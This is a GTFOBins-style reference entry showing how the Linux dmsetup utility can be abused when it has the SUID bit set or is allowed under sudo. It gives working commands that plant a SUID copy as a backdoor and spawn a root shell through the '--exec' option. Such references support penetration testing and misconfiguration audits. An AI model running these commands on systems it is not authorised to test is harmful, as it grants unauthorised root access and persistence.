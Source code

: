 # GTFOBin: dmsetup

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which dmsetup) .

./dmsetup create base <<EOF
0 3534848 linear /dev/loop0 94208
EOF
./dmsetup ls --exec '/bin/sh -p -s'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo dmsetup create base <<EOF
0 3534848 linear /dev/loop0 94208
EOF
sudo dmsetup ls --exec '/bin/sh -s'
```
